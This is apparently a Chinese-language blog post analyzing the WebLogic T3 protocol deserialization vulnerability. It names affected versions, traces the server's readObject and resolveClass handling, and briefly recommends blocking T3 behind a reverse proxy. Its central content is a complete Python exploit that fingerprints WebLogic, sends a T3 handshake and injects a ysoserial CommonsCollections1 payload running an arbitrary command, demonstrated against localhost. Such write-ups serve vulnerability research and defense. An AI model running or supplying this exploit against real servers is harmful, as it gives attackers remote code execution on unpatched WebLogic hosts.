






T3协议
Java RMI的基础通信协议是JRMP，而T3协议是WebLogic RMI调用时专用的通信协议，是JRMP的加强版本。
影响范围
10.3.6.0
12.1.2.0
12.1.3.0
12.2.1.0
漏洞分析
这里断点的逻辑是: Server必定会反序列化Client通过RMI传递过来的数据，所以直接在InboundMsgAbbrev#readObject打断点。
{kind=link}
这里的var1中的head即发送过去的反序列化数据。
{kind=link}
这里调用getServerChannel方法获取T3协议数据包的信息。
{kind=link}
将T3数据包内容传入readObject方法进行进一步解析。
{kind=link}
中间会对数据包内容进行分块然后依次调用resolveClass方法进行解析，先调用super.resolveClass(var1)从var1获取到对应的类对象赋值给var2，再把var2返回。 所以resolveClass方法的作用是将类的序列化描述符通过加工成该类的Class对象，后面的补丁也是从这里入手增加一个if判断拦截黑名单。
{kind=link}
EXP构造思路
从ateam分析文章得到每个序列化对象(会逐个进行反序列化)都会有相同的二进制(0xfe 0x01 0x00 0x00)以及序列化魔术头(0xac 0xed 0x00 0x05)。 所以我们只需要找aced0005和fe010000部分然后把恶意序列化数据替换进去。最后再修改T3协议头前四个字节的数据包长度字段。
https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247485058&idx=1&sn=d22b310acf703a32d938a7087c8e8704自动化工具
import struct
import subprocess
import socket
import re
import binascii
def generatePayload(gadget, cmd):
YSO_PATH = "/java/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar"
popen = subprocess.Popen(['java', '-jar', YSO_PATH, gadget, cmd], stdout=subprocess.PIPE)
return popen.stdout.read()
def T3Exploit(ip, port, payload):
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect((ip, port))
handshake = "t3 12.2.3\nAS:255\nHL:19\nMS:10000000\n\n"
sock.sendall(handshake.encode())
data = sock.recv(1024)
compile = re.compile("HELO:(.*).0.false")
match = compile.findall(data.decode())
if match:
print("Weblogic: " + "".join(match))
else:
print("Not Weblogic")
return
header = binascii.a2b_hex(b"00000000")
t3header = binascii.a2b_hex(
b"016501ffffffffffffffff000000690000ea60000000184e1cac5d00dbae7b5fb5f04d7a1678d3b7d14d11bf136d67027973720078720178720278700000000a000000030000000000000006007070707070700000000a000000030000000000000006007006")
desflag = binascii.a2b_hex(b"fe010000")
payload = header + t3header + desflag + payload
payload = struct.pack(">I", len(payload)) + payload[4:]
sock.send(payload)
if __name__ == "__main__":
ip = "127.0.0.1"
port = 7001
gadget = "CommonsCollections1"
cmd = "touch /tmp/success"
payload = generatePayload(gadget, cmd)
T3Exploit(ip, port, payload)防御方案
补丁上在resolveClass方法中使用黑名单的形式不足以防御该漏洞，更好的方法是在服务器外再做一个反向代理， 这样可以只接受http协议的请求，而不接受T3协议的请求。
Weblogic漏洞图(2019前)
{kind=link}
There Is Nothing Below
 Turn at the next intersection.
Turn at the next intersection.